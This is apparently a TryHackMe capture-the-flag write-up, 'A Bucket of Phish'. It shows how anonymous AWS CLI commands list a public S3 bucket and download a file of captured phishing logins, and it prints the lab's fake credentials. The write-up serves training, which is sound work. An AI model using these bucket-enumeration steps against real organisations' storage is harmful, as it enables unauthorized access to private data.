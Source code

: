 ```yaml
---
title: A Bucket of Phish
categories: [TryHackMe]
tags: [aws]
media_subpath: /images/tryhackme_abucketofphish/
image:
  path: 'https://tryhackme-images.s3.amazonaws.com/room-icons/edb8226745b7607d851bd0258f31227c1cbdad254e1a2d574d97837321fa8e32.618b3fa52f0acc0061fb0172-1747849942798'
---
```


![NON](file-20250528234045382.png)

Looking at the website, we can sett that it is running using the `aws` service, so we can try to list some public informations on the website, like public buckets

```bash
aws s3 ls s3://darkinjector-phish --no-sign-request

2025-03-17 06:46:17        132 captured-logins-093582390
2025-03-17 06:25:33       2300 index.html
```

We can see two files, the `index` page of the website and a `captured-logins` file, where is possible to find the credentials captured along with the flag for this challenge

```bash
aws s3 cp s3://darkinjector-phish/captured-logins-093582390 ./ --no-sign-request
download: s3://darkinjector-phish/captured-logins-093582390 to ./captured-logins-093582390

cat captured-logins-093582390
user,pass
munra@thm.thm,Password123
test@thm.thm,123456
mario@thm.thm,Mario123
flag@thm.thm,<REDACTED>
```
